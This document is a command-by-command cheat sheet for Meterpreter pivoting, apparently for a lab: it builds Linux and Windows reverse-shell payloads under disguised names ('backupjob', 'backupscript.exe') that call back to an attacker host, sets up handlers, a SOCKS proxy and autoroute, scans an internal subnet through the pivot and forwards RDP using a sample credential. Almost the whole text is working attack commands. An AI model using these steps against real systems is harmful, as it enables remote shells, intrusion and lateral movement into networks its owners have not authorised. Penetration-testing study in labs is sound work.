 ### **METERPRETER TUNNELING & PORT FORWARDING**

We will cover the essential commands and steps for setting up Meterpreter port forwarding, This guide assumes you have a Meterpreter shell on an Ubuntu server (pivot host) and wish to perform enumeration scans through this host.


### **CREATING PAYLOAD FOR UBUNTU PIVOT HOST**

1.  Generate Payload:  
    `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080`
    
2.  Start multi/handler:
    ```
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    msf6 exploit(multi/handler) > set lport 8080
    msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > run
    ```
    
3.  Copy and Execute Payload on Pivot Host:  
    `chmod +x backupjob $ ./backupjob`
    
4.  Verify Meterpreter Session:  
    `meterpreter > pwd`
    

### **CONFIGURING MSF SOCKS PROXY**

1.  Start SOCKS Proxy:
    
    ```
    msf6 > use auxiliary/server/socks_proxy
    msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
    msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
    msf6 auxiliary(server/socks_proxy) > set version 4a
    msf6 auxiliary(server/socks_proxy) > run
    ```
    
2.  Add Line to proxychains.conf:  
    `socks4 127.0.0.1 9050`
    
3.  Create Routes with AutoRoute:
    
    ```
    msf6 > use post/multi/manage/autoroute
    msf6 post(multi/manage/autoroute) > set SESSION 1
    msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
    msf6 post(multi/manage/autoroute) > run
    ```
    

### **TESTING PROXY & ROUTING FUNCTIONALITY**

1.  Run Nmap Scan:  
    `proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn`
    
2.  Local Port Forwarding:  
    `meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19`
    
3.  Connecting to Target:  
    `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`
    
4.  View Netstat:  
    `netstat -antp`
    

### **REVERSE PORT FORWARDING**

1.  Add Reverse Port Forward:  
    `meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18`
    
2.  Start multi/handler:
    
    ```
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LPORT 8081
    msf6 exploit(multi/handler) > set LHOST 0.0.0.0
    msf6 exploit(multi/handler) > run
    ```
    
3.  Generate Windows Payload:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234`
    
4.  Establish Meterpreter Session:  
    `meterpreter > shell`